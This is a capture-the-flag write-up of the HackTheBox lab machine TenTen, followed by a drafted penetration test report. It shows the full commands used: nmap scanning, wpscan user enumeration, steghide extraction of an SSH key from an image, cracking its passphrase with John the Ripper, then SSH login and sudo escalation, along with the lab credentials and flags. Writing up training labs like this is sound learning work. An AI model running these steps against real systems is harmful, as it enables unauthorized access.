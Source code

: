My notes from completing this box 

[TenTenNotes.pdf](https://github.com/ilyh4d3s/TenTenHTB/files/14633388/TenTenNotes.pdf)


nmap:
			sudo nmap -vvv -sVC -Pn -T4 -p0-65535 10.10.10.10 
   
				RESULTS:  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
		Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 23:45 CST
		NSE: Loaded 156 scripts for scanning.
		NSE: Script Pre-scanning.
		NSE: Starting runlevel 1 (of 3) scan.
		Initiating NSE at 23:45
		Completed NSE at 23:45, 0.00s elapsed
		NSE: Starting runlevel 2 (of 3) scan.
		Initiating NSE at 23:45
		Completed NSE at 23:45, 0.00s elapsed
		NSE: Starting runlevel 3 (of 3) scan.
		Initiating NSE at 23:45
		Completed NSE at 23:45, 0.00s elapsed
		Initiating Parallel DNS resolution of 1 host. at 23:45
		Completed Parallel DNS resolution of 1 host. at 23:45, 13.01s elapsed
		DNS resolution of 1 IPs took 13.01s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 0, TR: 3, CN: 0]
		Initiating SYN Stealth Scan at 23:45
		Scanning 10.10.10.10 [65536 ports]
		Discovered open port 80/tcp on 10.10.10.10
		Discovered open port 22/tcp on 10.10.10.10
		SYN Stealth Scan Timing: About 7.12% done; ETC: 23:53 (0:06:44 remaining)
		SYN Stealth Scan Timing: About 16.21% done; ETC: 23:52 (0:05:15 remaining)
		SYN Stealth Scan Timing: About 34.34% done; ETC: 23:50 (0:02:54 remaining)
		SYN Stealth Scan Timing: About 45.72% done; ETC: 23:50 (0:02:38 remaining)
		Stats: 0:02:50 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
		SYN Stealth Scan Timing: About 58.00% done; ETC: 23:50 (0:01:54 remaining)
		SYN Stealth Scan Timing: About 73.23% done; ETC: 23:50 (0:01:08 remaining)
		SYN Stealth Scan Timing: About 83.10% done; ETC: 23:50 (0:00:44 remaining)
		Completed SYN Stealth Scan at 23:50, 268.22s elapsed (65536 total ports)
		Initiating Service scan at 23:50
		Scanning 2 services on 10.10.10.10
		Stats: 0:04:48 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
		Service scan Timing: About 50.00% done; ETC: 23:50 (0:00:07 remaining)
		Completed Service scan at 23:50, 6.44s elapsed (2 services on 1 host)
		NSE: Script scanning 10.10.10.10.
		NSE: Starting runlevel 1 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 5.26s elapsed
		NSE: Starting runlevel 2 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.77s elapsed
		NSE: Starting runlevel 3 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		Nmap scan report for 10.10.10.10
		Host is up, received user-set (0.14s latency).
		Scanned at 2024-03-08 23:45:51 CST for 281s
		Not shown: 65534 filtered tcp ports (no-response)
		PORT   STATE SERVICE REASON         VERSION
		22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey: 
		|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
		| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD0ZxDYLkSx3+n8qOc+tpjAd+KZ8STcHdayXH5Vn7gRhiI6toUP53yvS4ysmU4uq/QkX+oAJabm3H2WdVDySKvLVitCstPErNjKmi3Zr4ROlJVyv25eR0Wuo42PqDRCB0DN5SBZsoylDM1FN53ZTdiTC4Da4NM/3zfXzJgBpo8NdRyCZJnTufOdR8x4RE/0QU6UZR1cJPKKNmS/7qzHtMDZx5MM0li07d77mDpUoMCxPGCWlH5VsgpKBUSvdzd5xjilN5/tU/uwgL4FLTcMJF6DPDORYxJWjGO8ThSm8nf+kgxdv1iSF3olv++tReoWjVZy/xrEIdgHTcPjGggldR9v
		|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
		| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERpTI9NMPamS6NaoLL5Y/nq+T19q1KR6GgtbsnmjCTtnGBKlaGI46uCPIYZwQ0MFDRg1hxq13rhLxl7JPIEjWU=
		|   256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
		|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIOrtl+D1cRlO2WrvblMacn5J5/rh+PTJmgxDwkBBfg7
		80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18
		| http-methods: 
		|_  Supported Methods: GET HEAD POST OPTIONS
		|_http-server-header: Apache/2.4.18 (Ubuntu)
		|_http-title: Did not follow redirect to http://tenten.htb/
		Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

		NSE: Script Post-scanning.
		NSE: Starting runlevel 1 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		NSE: Starting runlevel 2 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		NSE: Starting runlevel 3 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		Read data files from: /usr/bin/../share/nmap
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		Nmap done: 1 IP address (1 host up) scanned in 295.13 seconds

WordPress enumeration: 
	command: 
		sudo wpscan --url http://10.10.10.10 --enumerate u 
	Users Found: takis 

WordPress:
	///notice on the wordpress site youre able to navigate the rest of the website and view other applications by changing the # in the url:http://tenten.htb/index.php/jobs/apply/13/
	/// we know that WP stores all uploaded content  in /wp-content/uploads
	/// notice that when we change the # in the URL to 13 we see a "HackerAccessGranted" application 
	///navigate to the following URL: http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg > save image to kali  

Steghide: 
	///trying to find any hidden information embedded in the image
		command: steghide extract -sf HackerAccessGranted.jpg      
			![[tentenHTB.png]]
	///notice that id_rsa is now on our kaliVM 
	///view the contents
		command: less id_rsa 
	///notice it is encrypted so well need to change the format into a hash that JohnTheRipper can crack
	
JohnTheRipper:
		command:  /usr/share/john/ssh2john.py id_rsa >id_rsa.login
	///now that we have the hash we need to run john to see if we can crack the password
			command:  /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.login
			///had to make sure wordlists was installed and unzipped
				command: sudo apt install wordlists           
				command: sudo gunzip /usr/share/wordlists/rockyou.txt.gz
				
			![[tenten1.png]]
			///We cracked the password and can see that it is "superpassword"
			/// Now we need to try to login to ssh using the username we found "takis" and the cracked password "superpassword"

SSH:
	command:  ssh -i id_rsa takis@10.10.10.10
		///if the command is not working you may need to  change the id_rsa file permissions
			command:  sudo chmod 600 id_rsa    
		///Enter the cracked password  & you're in HackerAccessGranted!! cat ![[tentenssh.png]]

PrivEsc: 
	sudo -l
		///see that a directory does not need a password  ![[tentenPriv.png]]
		///See that were root and now you can look around for the other flag!!

Flags: 
	User: ddcc806a63fdd7792ff886b26648cdaf
	Root: f6e949cb495eec767a1ec62e93827aeb

Post Pentest Report: 
			  
	Based on your notes, here's a draft for a professional and understandable post-penetration testing report for HackTheBox's host `10.10.10.10`.

	---

	# Penetration Testing Report for HackTheBox

	## Executive Summary

	This report documents the findings of a penetration test conducted against the host `10.10.10.10`, belonging to HackTheBox. The objective of this test was to identify vulnerabilities, assess the impact and risk of these vulnerabilities, and recommend actions to mitigate identified security issues.

	## Test Methodology

	The penetration test was conducted using a comprehensive approach, utilizing various tools and techniques to discover and exploit vulnerabilities. Key phases included:

	- **Network Scanning**: Using `nmap` for identifying open ports and services.
	- **Application Enumeration**: Specifically targeting WordPress installations to identify users and potential vulnerabilities.
	- **Content Discovery**: Exploring application behavior to discover hidden or sensitive information.
	- **Cryptanalysis**: Employing `steghide` and `JohnTheRipper` to uncover and crack encrypted data.
	- **Access Exploitation**: Utilizing discovered credentials to gain unauthorized access via SSH.
	- **Privilege Escalation**: Analyzing system configurations to escalate privileges.

	## Key Findings

	### 1. Open Ports and Services

	- **SSH (22/tcp)**: Running OpenSSH 7.2p2 Ubuntu 4ubuntu2.1.
	- **HTTP (80/tcp)**: Hosting an Apache httpd 2.4.18 server, redirecting to a WordPress site.

	### 2. WordPress Enumeration

	- A user named `takis` was discovered, indicating a potential vector for further attacks.

	### 3. Sensitive Data Exposure

	- A hidden application named "HackerAccessGranted" was found, containing an encrypted SSH private key.

	### 4. Cryptanalysis

	- The encrypted SSH private key was successfully decrypted using `JohnTheRipper`, revealing the password "superpassword".

	### 5. Unauthorized Access

	- Utilizing the decrypted SSH key and discovered password, unauthorized access was gained to the system as the user `takis`.

	### 6. Privilege Escalation

	- A misconfigured directory allowed executing commands as root without a password, leading to full system compromise.

	## Risk Assessment

	The discovered vulnerabilities pose a severe risk, potentially allowing an attacker to gain unauthorized access, escalate privileges to root, and compromise the entire system.

	## Recommendations

	1. **Update and Patch**: Ensure the operating system and all applications, especially the SSH and Apache services, are up-to-date with the latest security patches.
	2. **Password Policy**: Implement a strong password policy to prevent the use of weak passwords.
	3. **Encrypt Sensitive Data**: Use strong encryption for sensitive data and secure the decryption keys.
	4. **Regular Security Audits**: Conduct regular security audits and penetration tests to identify and mitigate new vulnerabilities.
	5. **Access Controls**: Review and tighten file and directory permissions to adhere to the principle of least privilege.

	## Conclusion

	The penetration test revealed several significant vulnerabilities within the host `10.10.10.10` that could potentially be exploited to gain unauthorized access and escalate privileges. Immediate action is recommended to address these issues and protect the system from potential threats. Regular security assessments are advised to maintain a robust security posture.
